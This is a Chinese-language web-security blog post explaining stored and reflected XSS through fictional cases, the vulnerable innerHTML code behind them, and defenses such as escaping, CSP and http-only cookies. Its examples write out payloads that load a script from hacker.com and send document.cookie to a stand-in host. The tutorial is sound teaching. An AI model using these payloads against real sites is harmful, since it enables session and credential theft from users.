```yaml
---
layout: post
title: WEB安全指北：XSS攻击
date: 2019-05-14
categories: blog
header-color: "#678"
tags: [js]
---
```


### 今日说法：XSS 攻击案例（一）

以下案例纯属虚构：

黑客发现旧浪网某边缘功能的评论区存在漏洞，用户输入的内容未经过滤直接保存到后台

攻击者构建一个评论, 包含恶意内容

    你的牌打得太好辣！<script src="//hacker.com/evil.js"></script>

用户访问评论列表时，服务端取出存储的内容，回填到 HTML 响应中：

```html
<li>
  你的牌打得太好辣！<script src="//hacker.com/evil.js"></script>
</li>
```

浏览器接收到响应后就会加载执行恶意脚本 hacker.com/evil.js，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上恶意评论的 URL，诱导更多人点击，层层放大攻击范围。

### 今日说法：XSS 攻击案例（二）

程序员杨天宝开发了一个页面，用于展示用户输入的数据：

[dev.cabeza.cn/security/xss.html?a=坤坤](http://dev.cabeza.cn/security/xss.html?a=坤坤)

看起来没什么问题 😀

某日，杨天宝接到了自己页面的地址，虽然有点长:

<a href="http://dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22javascript:alert(%27NM$L%27)%22%3E">dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22javascript:alert(%27NM\$L%27)%22%3E</a>

点开后，页面弹出了写着粗鄙之语的弹出框

杨天宝又接到了一串神秘网址：

[dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22document.body.appendChild(document.createElement(%27img%27)).setAttribute(%27src%27%2C%27http%3A%2F%2Fwww.xxx.com%2Fcookie%3Fc%3D%27%2Bdocument.cookie)%3B%22%3E](<http://dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22document.body.appendChild(document.createElement(%27img%27)).setAttribute(%27src%27%2C%27http%3A%2F%2Fwww.xxx.com%2Fcookie%3Fc%3D%27%2Bdocument.cookie)%3B%22%3E>)

`注：该页面已经提前埋下了值为'password=ikun'的测试性cookie`

这时如果你打开浏览器的控制台，在 NETWORK 监控里就会发现已经朝http://www.xxx.com/cookie这个地址发送了请求，并且携带了自己的cookie

    http://www.xxx.com/cookie?c=password=ikun

想想攻击者拿到用户 cookie 意味着什么，杨天宝已经倒吸一口凉气了

### 案情分析

这是杨天宝开发的页面内容：

```html
<html lang="en">
  <head></head>
  <body>
    <div id="test"></div>
    <h1>我喜欢唱跳rap还有篮球</h1>
  </body>
  <script>
    // 从url参数中取值
    let a = getQueryString("a");
    document.querySelector("#test").innerHTML = a;
  </script>
</html>
```

杨天宝过分信任用户的输入，没有做任何防范。

上面的例子中，黑客的攻击语句分别为

    <img src="" onerror="javascript:alert('NM$L')">

    <img src="" onerror="document.body.appendChild(document.createElement('img')).setAttribute('src','http://www.xxx.com/cookie?c='+document.cookie);">

当这些恶意语句没有经过过滤注入到页面 HTML 中时，其中的 js 代码便会执行，实现达到窃取用户信息的目的

**这就是 XSS 攻击**

### XSS 的定义

Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。

为了不和层叠样式表（Cascading Style Sheets, CSS）的缩写混淆，故将跨站脚本攻击缩写为 XSS

### XSS 的分类

根据攻击手段的不同，xss 可以分为

- 存储型 XSS
- 反射型 XSS

#### 存储型

上文中的旧浪网案例，便是一个存储型XSS攻击

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

其原因是数据提交到后端没有进行过滤直接持久化，其他用户浏览到这段评论时执行了恶意脚本

如果攻击者的脚本是删除文章、发布反动内容, 那么后果将非常严重了

#### 反射型

上文案例中黑客攻击杨天宝的网站所用手段，便是一个典型的反射型 XSS 攻击，利用系统漏洞，构造出包含恶意代码的特殊 URL，并欺骗用户去点击访问，从而触发恶意脚本发起 Web 攻击

反射型 XSS 跟存储型 XSS 的区别是：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。

### XSS 的防御

#### 前端层面

- 输入内容控制长度
- 输入过滤
- 谨慎使用 innerHTML、document.write()等
- vue 框架中，谨慎使用 v-html
- react 框架中，谨慎使用 dangerouslySetInnerHTML

#### 服务器

- 各种 Web Application Firewall，比如 nginx lua waf
- 设置 HTTP 的 Content-Security-Policy 头部字段

[lua waf](https://github.com/p0pr0ck5/lua-resty-waf/blob/master/rules/42000_xss.json)

[Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

#### 后端

- 对于一切用户的输入、输出、客户端的输出内容视为不可信，对于前端传来的 HTML 务必进行转义
- cookie 设置为 http-only
- 敏感操作加入前置校验（验证码等）

[转义库 owasp](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project#tab=Use_the_Java_Encoder_Project)

### 总结

程序开发过程中

1. 始终认为用户是愚蠢的

2. 始终认为用户是恶意的

3. 攻防无止境
